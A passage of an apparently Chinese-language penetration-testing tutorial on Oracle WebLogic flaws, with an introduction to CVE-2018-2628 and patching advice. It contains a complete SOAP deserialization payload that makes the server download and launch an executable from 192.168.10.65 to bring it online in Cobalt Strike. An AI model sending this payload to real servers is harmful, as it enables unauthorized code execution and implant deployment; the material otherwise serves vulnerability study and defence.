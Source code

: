 win 上线 cs 的 poc 如下，这里 exe 用的是上面生成的：

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"xmlns:asy="http://www.bea.com/async/AsyncResponseService"><soapenv:Header><wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>powershell</string></void><void index="1"><string>-Command</string></void><void index="2"><string>(new-object System.Net.WebClient).DownloadFile('http://192.168.10.65/zcc1.exe','zcc1.exe');start-process zcc1.exe</string></void></array><void method="start"/></void></work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDbfibFLS0SXoklrQa8pYRMGy2Pvot1iaqoQbfk37Yph6ciaUsxhSPVrDyA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDp4vibpGakL4128UGr1W87TamzVvgwg1yj0uSqN3XVANZ2MiaBuCM4CcQ/640?wx_fmt=png)

##### 安全防护

1、升级本地 JDK 环境

2、及时安装官方补丁

#### 4.WebLogic T3 协议反序列化命令执行漏洞 CVE-2018-2628

##### 漏洞简介

远程攻击者可利用该漏洞在未授权的情况下发送攻击数据，通过 T3 协议（EJB 支持远程访问，且支持多种协议。这是 Web Container 和 EJB Container 的主要区别）在 Weblogic Server 中执行反序列化操作，利用 RMI（远程方法调用） 机制的缺陷，通过 JRMP 协议（Java Remote Messaging Protocol：java 远程消息交换协议）达到执行任意反序列化 payload 的目的。

##### 影响版本

```
10.3.6.0
12.1.3.0
12.2.1.1
12.2.1.2
```

##### 相关漏洞

```
CVE-2015-4852
CVE-2016-0638
CVE-2016-3510
CVE-2017-3248
CVE-2018-2893
CVE-2016-0638
```

##### 验证漏洞

使用脚本跑，脚本运行需 python2 环境，出现如下图所示的回显时，说明存在该漏洞；

脚本链接：https://github.com/shengqi158/CVE-2018-2628

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD4jfDyK43zadxG2ibxNEXKhMZ9TVSbLoUjXGAbrE2nV72w2tTnhKNtow/640?wx_fmt=png)image-20210810160702675![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDNoeslY52StrmlYg2tChDQwibmRGJjHyrOPC8qUdTe2vlZKNATI1EA3g/640?wx_fmt=png)image-20210810160718697
